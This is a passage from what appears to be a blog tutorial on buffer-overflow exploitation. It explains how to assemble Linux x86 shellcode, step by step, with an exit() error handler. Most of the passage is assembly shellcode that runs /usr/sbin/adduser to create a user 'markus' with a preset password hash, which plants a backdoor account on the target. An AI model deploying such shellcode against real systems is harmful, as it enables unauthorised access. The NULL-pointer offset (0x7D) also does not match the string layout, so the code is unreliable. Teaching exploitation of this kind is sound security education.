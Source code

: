 2. **Error Handling**  
   Proper error handling for system calls has not yet been implemented. Here, we will opt for the simplest possible approach: if a system call fails, the process should exit gracefully with an `exit()` system call. The system call number for `exit()` on Linux is `1`; it expects a status code as an argument. The assembly code below demonstrates how to implement this functionality.

{% highlight nasm %}
	movl $0x1, %eax
	movl $0x0, %ebx
	int $0x80
{% endhighlight %} 
Below is a brief summary of the steps required to create a working code to corrupt the target system:
1. Correct placement of strings after the actual code
2. Determine the individual string addresses and place them in a suitable place
3. Storing a NULL pointer (directly behind the string addresses)
4. Null termination of the individual strings (not done automatically!!)
5. Setting the four registers EAX up to EDX
6. Triggering a software interrupt
7. Error handling
The code should have the following structure:


{% include figure.liquid 
   path="assets/img/2018-02-05-buffer-overflows/examplestructure.png" 
   class="img-fluid rounded z-depth-1 imgcenter" zoomable=true width="600px"  
   caption="Exploit code structure."  
%}

Some initial runnable code might look like this:

{% highlight nasm %}
jmp data
start:
	popl %esi             # Base Address der Strings vom Stack holen
	movl %esi,63(%esi)    # Address for name[0] 		
	leal 18(%esi),%eax    # Address for name[1]
	movl %eax,67(%esi)			
	leal 25(%esi),%eax    # Address for name[2]
	movl %eax,71(%esi)		
	leal 28(%esi),%eax    # Address for name[3]
	movl %eax,75(%esi)		
	movb $0x0,17(%esi)    # Termination of the Strings
	movb $0x0,24(%esi)
	movb $0x0,27(%esi)
	movb $0x0,62(%esi)
	movl $0x0,0x7D(%esi)  # NULL-Pointer at end of pointer list
	movl $0xb,%eax        # Code of SysCall-table
	movl %esi,%ebx        # Address of name[0]
	leal 63(%esi),%ecx    # Address [A] to ECX (name[])
	leal 0x7D(%esi),%edx  # Address of null pointer to EDX
	int $0x80             # Trigger Interrupt
	movl $0x1,%eax        # Begin of Error Handling
	movl $0x0,%ebx
	int $0x80
data:
	call start            # Put base address of Strings on the Stack
.string \"/usr/sbin/adduser#markus#-p#$1$7ÏvÙLKÏµ$gSUKG6RALzRA8ryROcTsG0#\"
{% endhighlight %} 
